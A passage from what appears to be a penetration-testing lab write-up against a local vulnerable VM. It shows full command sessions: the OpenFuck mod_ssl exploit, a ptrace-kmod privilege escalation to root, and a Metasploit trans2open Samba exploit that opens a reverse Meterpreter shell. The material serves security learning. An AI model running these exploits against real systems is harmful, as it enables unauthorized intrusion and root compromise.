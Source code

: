 0x6a didn't work so we try 0x6b

{% highlight python %}
./openfuck 0x6b 192.168.56.103 443

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8088
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
.....
23:45:10 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 1074
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
{% endhighlight %}

#### CVE-2003-0201
Exploit was available in Metasploit:

{% highlight python %}
msf > search cve-2003-0201

Matching Modules
================

   Name                              Disclosure Date  Rank   Description
   ----                              ---------------  ----   -----------
   exploit/freebsd/samba/trans2open  2003-04-07       great  Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/trans2open    2003-04-07       great  Samba trans2open Overflow (Linux x86)
   exploit/osx/samba/trans2open      2003-04-07       great  Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/trans2open  2003-04-07       great  Samba trans2open Overflow (Solaris SPARC)

msf > use exploit/linux/samba/trans2open 
msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf exploit(trans2open) > set rhost 192.168.56.103
rhost => 192.168.56.103
msf exploit(trans2open) > run

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] 192.168.56.103:139 - Trying return address 0xbffffdfc...
[*] 192.168.56.103:139 - Trying return address 0xbffffcfc...
[*] 192.168.56.103:139 - Trying return address 0xbffffbfc...
[*] 192.168.56.103:139 - Trying return address 0xbffffafc...
[*] Sending stage (798104 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.103:32769) at 2017-08-14 22:17:30 +0100
[*] 192.168.56.103 - Meterpreter session 1 closed.  Reason: Died
